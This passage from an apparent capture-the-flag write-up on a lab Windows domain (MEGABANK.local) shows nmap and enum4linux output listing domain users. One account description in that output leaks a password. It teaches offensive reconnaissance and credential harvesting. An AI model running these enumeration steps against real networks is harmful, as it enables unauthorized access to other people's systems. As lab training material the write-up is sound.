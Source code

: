 ```
|     stevie@MEGABANK.local
|     zach@MEGABANK.local
|     sunita@MEGABANK.local
|     steve@MEGABANK.local
NSE Timing: About 94.32% done; ETC: 18:26 (0:00:02 remaining)
Stats: 0:03:38 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
|     marko@MEGABANK.local
|     abigail@MEGABANK.local
|     gustavo@MEGABANK.local
|     naoki@MEGABANK.local
|     simon@MEGABANK.local
|     Administrator@MEGABANK.local
|     sally@MEGABANK.local
|     angela@MEGABANK.local
|     paulo@MEGABANK.local
|     marcus@MEGABANK.local
|     melanie@MEGABANK.local
|     annika@MEGABANK.local
|     ulf@MEGABANK.local
|     claude@MEGABANK.local
|_    annette@MEGABANK.local
```


Although we did find some possible usernames for the MEGABANK Kerberos server, I decided against using it as I was not familiar with it. Further google-fu returned a tool called enum4linux, so I promptly installed it, and ran the enumeration script with all services on the ip.
```
$ enum4linux -a 10.10.10.169
```
```
 ============================= 
|    Users on 10.10.10.169    |
 ============================= 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 866.
index: 0x10b0 RID: 0x19ca acb: 0x00000010 Account: abigail      Name: (null)    Desc: (null)
index: 0xfbc RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0x10b4 RID: 0x19ce acb: 0x00000010 Account: angela       Name: (null)    Desc: (null)
index: 0x10bc RID: 0x19d6 acb: 0x00000010 Account: annette      Name: (null)    Desc: (null)
index: 0x10bd RID: 0x19d7 acb: 0x00000010 Account: annika       Name: (null)    Desc: (null)
index: 0x10b9 RID: 0x19d3 acb: 0x00000010 Account: claire       Name: (null)    Desc: (null)
index: 0x10bf RID: 0x19d9 acb: 0x00000010 Account: claude       Name: (null)    Desc: (null)
index: 0xfbe RID: 0x1f7 acb: 0x00000215 Account: DefaultAccount Name: (null)    Desc: A user account managed by the system.
index: 0x10b5 RID: 0x19cf acb: 0x00000010 Account: felicia      Name: (null)    Desc: (null)
index: 0x10b3 RID: 0x19cd acb: 0x00000010 Account: fred Name: (null)    Desc: (null)
index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0x10b6 RID: 0x19d0 acb: 0x00000010 Account: gustavo      Name: (null)    Desc: (null)
index: 0xff4 RID: 0x1f6 acb: 0x00000011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0x10b1 RID: 0x19cb acb: 0x00000010 Account: marcus       Name: (null)    Desc: (null)
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko Name: Marko Novak       Desc: Account created. Password set to Welcome123!
index: 0x10c0 RID: 0x2775 acb: 0x00000010 Account: melanie      Name: (null)    Desc: (null)
index: 0x10c3 RID: 0x2778 acb: 0x00000010 Account: naoki        Name: (null)    Desc: (null)
index: 0x10ba RID: 0x19d4 acb: 0x00000010 Account: paulo        Name: (null)    Desc: (null)
index: 0x10be RID: 0x19d8 acb: 0x00000010 Account: per  Name: (null)    Desc: (null)
index: 0x10a3 RID: 0x451 acb: 0x00000210 Account: ryan  Name: Ryan Bertrand     Desc: (null)
index: 0x10b2 RID: 0x19cc acb: 0x00000010 Account: sally        Name: (null)    Desc: (null)
index: 0x10c2 RID: 0x2777 acb: 0x00000010 Account: simon        Name: (null)    Desc: (null)
index: 0x10bb RID: 0x19d5 acb: 0x00000010 Account: steve        Name: (null)    Desc: (null)
```